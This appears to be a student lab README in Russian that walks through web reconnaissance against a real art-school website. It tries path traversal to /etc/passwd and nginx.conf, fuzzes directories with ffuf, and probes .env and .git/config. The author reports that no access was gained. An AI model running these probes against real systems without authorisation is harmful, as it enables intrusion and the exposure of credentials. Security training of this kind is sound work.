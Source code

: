 # Лабораторная работа №1 - со звёздочкой :star2:
![meme1](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/meme1.jpg)

За основу мы взяли сайт [школы искусств](https://dshi46.ru/)
## Path traversal (обход пути)
*Уязвимость в веб-приложениях, позволяющая злоумышленнику получить несанкционированный доступ к файлам и директориям на сервере, находящимся за пределами разрешенного корневого каталога.*
1. Установим curl 
```
winget install curl.curl
```

2. Попытаемся сделать обход и получить доступ к системным файлам
```
curl -Uri "https://dshi46.ru/../../../../etc/passwd" | select -First 5
```
> Файл /etc/passwd содержит следующие записи, разделенные двоеточиями:
  > - Имя пользователя
  > - Зашифрованный пароль
  > - Цифровой идентификатор пользователя (UID)
  > - Цифровой идентификатор группы пользователя (GID)
  > - Полное имя пользователя (GECOS)
  > - Домашний каталог пользователя
  > - Оболочка входа в систему

![res1](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res1.png)

Попробуем закодировать символы ( %2f = / и, если сервер вдруг на Windows: %5c = \ ), а также получить файл с конфигурациями nginx
```
curl -Uri "https://dshi46.ru/..%2f..%2f..%2f..%2fetc%2fpasswd" | select -First 5
curl -Uri "https://dshi46.ru/..%5c..%5c..%5c..%5cetc%2fpasswd" | select -First 5
curl -Uri "https://dshi46.ru/..%2f..%2f..%2fetc%2fnginx%2fnginx.conf" | select -First 5
```

![res2](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res2.png)

Как видим, доступ получить не удалось :(

## FFUF
*мощный инструмент командной строки, предназначенный для перебора содержимого веб-приложений. Он позволяет автоматизировать процесс фаззинга, тем самым обнаруживая скрытые файлы и директории, а также проверяя различные параметры URL и заголовки HTTP.*
1. Скачаем релиз утилиты FFUF для Windows: ffuf_2.1.0_windows_amd64.zip
2. Извлечем ffuf.exe и переместим его в папку C:\Tools\
3. Добавим в переменные среды ( переменную Path ) путь до этой папки C:\Tools\
4. Перезапустим PowerShell
5. Скачаем [словарь для перебора](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt)
6. Выполним команду
   ```
   ffuf -w C:\Users\User\Downloads\common.txt -u https://dshi46.ru/FUZZ
   ```
7. В результате у нас есть доступ к странице для входа в аккаунт админа, но это не является уязимостью
8. А также на сервере существуют папки documents, stat и images к которым доступа нет
   ![res3](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res3.png)
9. С помощью команд
    ```
    ffuf -u https://dshi46.ru/stat/FUZZ -w "C:\Users\User\Downloads\common.txt" -mc 200,403 -t 10
    ffuf -u https://dshi46.ru/documents/FUZZ -w "C:\Users\User\Downloads\common.txt" -mc 200,403 -t 10
    ffuf -u https://dshi46.ru/documents/FUZZ -w "C:\Users\User\Downloads\common.txt" -mc 200,403 -t 10
    ```
    ![res4](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res4.png)
    
   проверили содержимое каталогов и код у файлов. Ничего лишнего вне рабочего каталога index нам не оказалось доступным.

## Раскрытие информации (Information Disclosure)
*Анализ HTTP-заголовков и проверка стандартных мест*
1. Проверим заголовки ответа
   ```
   curl -Uri "https://dshi46.ru/"
   ```
2. Проверим служебные каталоги и файлы
   ```
   curl -Uri "https://dshi46.ru/nginx-status"
   curl -Uri "https://dshi46.ru/.env"        
   curl -Uri "https://dshi46.ru/.git/config"  
   curl -Uri "https://dshi46.ru/server-status"
   ```

   ![res5](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res5.png)

![meme2](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/meme2.png)
